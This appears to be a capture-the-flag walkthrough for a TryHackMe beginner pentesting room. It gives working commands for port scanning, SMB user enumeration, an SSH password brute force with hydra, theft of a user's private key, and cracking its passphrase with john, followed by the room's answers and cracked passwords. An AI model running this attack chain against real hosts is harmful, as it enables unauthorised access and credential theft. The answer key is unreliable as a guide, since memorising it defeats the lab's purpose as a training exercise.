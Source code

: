 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

## Task 1: Web App Testing and Privilege Escalation

>In these set of tasks you'll learn the following:\
- brute forcing
- hash cracking
- service enumeration
- Linux Enumeration

First do the enumeration with nmap
```
ip=10.10.66.143
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```
**Output:**
```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m05s, deviation: 2h18m34s, median: 5s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-06-24T02:38:38-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-06-24T06:38:38
|_  start_date: N/A
```
Find the hidden directory using `gobuster`
```
gobuster -u http://$ip:80 -w /usr/share/wordlists/dirb/common.txt -x xxa dir
```
So we got a hidden directory development\
Lets run `enum4linux` and see if we can get anything more.
```
enum4linux $ip
```
We got the two users `Jan` and `kay`

Now to brute force the password let use `hydra`
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$ip
```
So the password is 'armando' for 'jan'.\
Logging in  through the credentials.

Hint: Use a privilege escalation checklist or tool like LinEnum\
Download the LinEnum and upload it to the victim /tmp directory(on other directories it will not be allowed). Run the `./LinEnum.sh`(You can also use `linpeas`)

We got private key for 'kay' which is readable. Lets copy this to attack machine and name the file `kay_idrsa`.\
Before Logging in with the private key we have to crack its passphrase. For this we pass the keys to `ssh2john.py` and then crack it with `john` using rockyou.txt
```
/usr/share/john/ssh2john.py kay_idrsa > ssh2john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
```
The passphrase is 'beeswax'\
Log in now with the private keys
```
chmod 600 kay_idrsa
ssh -i kay_idrsa kay@10.10.254.122
```
Get the final flag at `pass.bak`


- What is the name of the hidden directory on the web server(enter name without /)?

  development
- What is the username?

  jan
- What is the password?

  armando
- What service do you use to access the server(answer in abbreviation in all caps)?

  SSH
- What is the name of the other user you found(all lower case)?

  Kay
- What is the final password you obtain?

  heresareallystrongpasswordthatfollowsthepasswordpolicy
